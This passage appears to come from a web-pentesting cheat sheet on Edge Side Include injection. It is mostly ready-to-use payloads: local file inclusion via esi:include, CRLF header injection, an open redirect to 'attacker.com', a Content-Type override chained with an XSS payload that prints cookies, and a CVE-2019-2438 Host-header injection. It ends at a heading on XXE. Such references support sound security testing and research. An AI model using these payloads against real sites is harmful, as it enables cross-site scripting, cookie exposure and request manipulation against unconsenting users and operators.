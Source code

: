 ```markup
<esi:include src="secret.txt">
```

#### CRLF

```markup
<esi:include src="http://anything.com%0d%0aX-Forwarded-For:%20127.0.0.1%0d%0aJunkHeader:%20JunkValue/"/>
```

#### Open Redirect

The following will add a `Location` header to the response

```bash
<!--esi $add_header('Location','http://attacker.com') -->
```

#### Add Header

* Add header in forced request

```xml
<esi:include src="http://example.com/asdasd">
<esi:request_header name="User-Agent" value="12345"/>
</esi:include>
```

* Add header in response (useful to bypass "Content-Type: text/json" in a response with XSS)

```bash
<!--esi/$add_header('Content-Type','text/html')/-->

<!--esi/$(HTTP_COOKIE)/$add_header('Content-Type','text/html')/$url_decode($url_decode('"><svg/onload=prompt(1)>'))/-->

# Check the number of url_decode to know how many times you can URL encode the value
```


#### CRLF in Add header (**CVE-2019-2438)**

```xml
<esi:include src="http://example.com/asdasd">
<esi:request_header name="User-Agent" value="12345
Host: anotherhost.com"/>
</esi:include>
```

#### Akamai debug

This will send debug information included in the response:

```xml
<esi:debug/>
```

### ESI + XSLT = XXE
